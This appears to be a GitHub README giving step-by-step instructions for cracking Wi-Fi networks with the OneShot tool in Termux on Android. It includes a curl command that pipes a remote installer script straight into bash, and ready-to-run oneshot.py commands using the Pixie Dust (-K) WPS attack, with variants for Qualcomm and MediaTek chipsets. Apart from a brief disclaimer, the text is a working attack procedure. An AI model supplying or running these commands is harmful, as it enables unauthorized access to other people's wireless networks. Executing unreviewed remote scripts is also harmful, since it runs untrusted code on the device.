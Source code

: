 # WiFi Cracker Guide Using Termux

This document provides a straightforward guide on using a WiFi Cracker tool with the Termux emulator. It's intended for educational purposes only. Ensure you have permission to test on the network you're targeting.

## Getting Started

### Prerequisite
- Termux Emulator installed on your device.

### Installation and Usage

1. **Install Termux Emulator**
   Begin by ensuring the Termux emulator is installed on your device. You can find it in the Google Play Store or F-Droid.

2. **Upgrade Packages**
   Open Termux and upgrade the packages to ensure you're working with the latest versions.
   ```bash
   pkg upgrade
   ```

3. **Update Packages**
   Next, update the package lists to fetch the latest available versions of the packages.
   ```bash
   pkg update
   ```

4. **Install WiFi Cracker**
   Download and execute the installer script for the WiFi Cracker tool using curl.
   ```bash
   curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash
   ```
   If the installation process halts or fails, simply rerun the command to attempt the installation again.

5. **Disable WiFi/Data Connection**
   Ensure your device's WiFi or data connection is turned off to prevent interference during the cracking process.

6. **Execute the WiFi Cracker**
   Run the appropriate command based on your device's chipset.

   - **For Qualcomm (qcom) chipsets:**
     ```bash
     sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
     ```

   - **For MediaTek (mtk) chipsets:**
     ```bash
     sudo python OneShot/oneshot.py -i wlan0 --mtk-wifi --iface-down -K
     ```

## Disclaimer
This guide is for educational purposes only. Always have explicit permission before attempting to test any network. Unauthorized access to networks is illegal and unethical.


